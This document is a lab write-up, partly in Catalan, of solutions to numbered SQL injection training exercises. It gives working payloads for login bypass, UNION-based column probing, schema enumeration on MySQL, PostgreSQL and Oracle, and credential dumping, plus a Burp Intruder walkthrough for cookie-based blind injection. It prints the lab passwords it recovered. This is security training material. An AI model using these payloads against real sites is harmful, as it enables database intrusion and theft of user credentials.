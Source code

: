 ## **Lab 1**: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

    /filter?category=Gifts' or 1=1-- -'

## **Lab 2**: SQL injection vulnerability allowing login bypass

    administrator'-- -

## **Lab 3**: SQL injection UNION attack, determining the number of columns returned by the query

    filter?category=Gifts' union select NULL, NULL, NULL-- -
## **Lab 4**: SQL injection UNION attack, finding a column containing text

    filter?category=Gifts' union select NULL,'1M2wiY',NULL-- -

## **Lab 5**: SQL injection UNION attack, retrieving data from other tables
1. Llistar TOTES les Bases de Dades:
        
        filter?category=Gifts' union select schema_name,NULL from information_schema.schemata-- -
2. Llistar TOTES les Taules de totes les BBDD:
        
        filter?category=Gifts' union select table_name,NULL from information_schema.tables-- -
3. Llistar TOTES les Taules d'1 BDD:
        
        filter?category=Gifts' union select table_name,NULL from information_schema.tables where table_schema='public'-- -
4. Llistar TOTES les Columnes d'una taula i una BDD en concret:
        
        filter?category=Gifts' union select column_name,NULL from information_schema.columns where table_schema='public' and table_name='users'-- -
5. Llistar Dades de diferents maneres
       
        a) filter?category=Gifts' union select NULL,group_concat(username,':',password) from users-- -
        b) filter?category=Gifts' union select NULL,group_concat(username,0x3a,password) from users-- -
            ---> Convertim els : en Hexadecimal
        c) filter?category=Gifts' union select NULL,group_concat(username,':',password) from users where username = 'admin'-- -
        d) filter?category=Gifts' union select NULL,group_concat(username,':',password) from users where username = '0x61646d696e'-- -
            ---> Convertim la paraula 'admin' en Hexadecimal

        Convertir 'admin' en Hexadecimal ==> echo "admin" | tr -d '\n' | xxd -ps

        5.1. SOLVED: filter?category=Gifts' union select username,password from users-- -
        5.2. SOLVED: filter?category=Gifts' union select NULL,username||':'||password from users-- -
              - OUTPUT: administrator:ria9b2ri5pwga9fk2s41

## **Lab 6**: SQL injection UNION attack, retrieving multiple values in a single column

    filter?category=Gifts' union select NULL,username||':'||password from users-- -
            OUTPUT: administrator/lt7elzdb9kleb4bdfy9f

## **Lab 7**: SQL injection attack, querying the database type and version on Oracle
    filter?category=Gifts' union select NULL,banner from v$version-- -

## **Lab 8**: SQL injection attack, querying the database type and version on MySQL and Microsoft
    filter?category=Lifestyle' union select NULL,@@version-- -

## **Lab 9**: SQL injection attack, listing the database contents on non-Oracle databases
    a) filter?category=Accessories' union select NULL,table_name from information_schema.tables where table_schema='public'-- -
	    OUTPUT: users_mozxmt, products
    b) filter?category=Accessories' union select column_name,NULL from information_schema.columns where table_schema='public' and table_name='users_mozxmt'-- -
	    OUTPUT: password_imfrmo, username_blbbus
    c) filter?category=Accessories' union select username_blbbus,password_imfrmo from users_mozxmt-- -
	        OUTPUT: administrator/4osd4u3aeqkfxw5z3zvk

## **Lab 10**: SQL injection attack, listing the database contents on Oracle

    a) filter?category=Gifts' union select NULL,owner from all_tables-- -
	    OUTPUT: APEX_040000, CTXSYS, MDSYS, PETER, SYS, SYSTEM, XDB
    b) filter?category=Gifts' union select NULL,table_name from all_tables where owner = 'PETER'-- -
	    OUTPUT: products, USERS_IFEEJB
    c) filter?category=Gifts' union select NULL,column_name from all_tab_columns where table_name = 'USERS_IFEEJB'-- -
	    OUTPUT: PASSWORD_HHELXQ, USERNAME_QLKZDD
    d) filter?category=Gifts' union select NULL,USERNAME_QLKZDD||':'||PASSWORD_HHELXQ from USERS_IFEEJB-- -
	    OUTPUT: administrator/l5j55i07t8chg0l6j2jd

## **Lab 11**: Blind SQL injection with conditional responses

    Amb BurpSuite pillar la petició de la pàgina principal i la vulnerabilitat esta en canviar el valor de la Cookie.
    Ens hem de fixar en el text "Welcome Back!".
    Si surt, és perquè el nostre codi s'esta interpretant. Però no ens mostra el codi.
    Si NO surt, és perquè el nostre codi NO s'esta interpretant i hi ha algun error.

    cookie: TrackingId=ILvPeZM3RkpyrlBj' and (select substring(username,1,1) from users where username='administrator')='a; session=qOsZS0ZY7BKg3nFzHmzl1MOz1SappPQ8

    Si enviem aquesta petició ens hauria de sortir "Welcome Back!", ja que si que existeix l'usuari admin.

    Ara escrivim:
    cookie: TrackingId=ILvPeZM3RkpyrlBj' and (select substring(password,1,1) from users where username='administrator')='a; session=qOsZS0ZY7BKg3nFzHmzl1MOz1SappPQ8

    I enviarem aquesta petició a l'intruder.

    A l'intruder on posa "Choose an attack type" farem tipus 'Sniper'.
    Seleccionem la lletra "a" després de l'administrator i a la dreta posem ADD§.
    La lletra a ens ha de quedar aixi: §a§

    Ens dirigim a la pestanya de Payloads.
    I on posa Payload Options (Simple List)
    Anem afegint el nostre diccionari: a,b,c,d,e,f.. 1,2,3,4..
    Tots els caracters que volguem.
    A la dreta clickem StartAttack

    Comprovara que la primera lletra de la password de l'usuari administrator sigui aquella.
    Com que a la pagina ens mostra un "Welcome Back" si ha funcionat, ens haurem de fixar en la columna "length" de l'atac que acabem de fer.
    Veig que tots tenen 11030 i la "k" un 11091.

    Per tant, si en el Repeater li posem
    Cookie: TrackingId=ILvPeZM3RkpyrlBj' and (select substring(password,1,1) from users where username='administrator')='k; session=qOsZS0ZY7BKg3nFzHmzl1MOz1SappPQ8
    Ens sortira el "Welcome Back!"
    Això em diu que la primera lletra de la password serà "k".

    Ens creem un script en Python anomenat SQLI_Conditional_Responses.py

    Fem pip3 install pwntools

    Abans de continuar amb l'script, volem averiguar de quants caracters esta feta la passwd.
    Anem provant el numero fins que trobem que és de 20.
    Cookie: TrackingId=ILvPeZM3RkpyrlBj' and (select 'a' from users where username='administrator' and length(password)>=20)='a; session=qOsZS0ZY7BKg3nFzHmzl1MOz1SappPQ8

    OUTPUT SCRIPT:
    python3 SQLI_Conditional_Error.py
    [◢] Fuerza Bruta: NQLIhBYeW4w1MyVo' and (select substring(password,20,1) from users where username='administrator')='m
    [→] Password: koa1z59sfl237dt7vmmm

## **Lab 12**: Blind SQL injection with conditional errors

## **Lab 13**: Blind SQL injection with time delays

## **Lab 14**: Blind SQL injection with time delays and information retrieval

## **Lab 15**: Blind SQL injection with out-of-band interaction

## **Lab 16**: Blind SQL injection with out-of-band data exfiltration

## **Lab 17**: SQL injection with filter bypass via XML encoding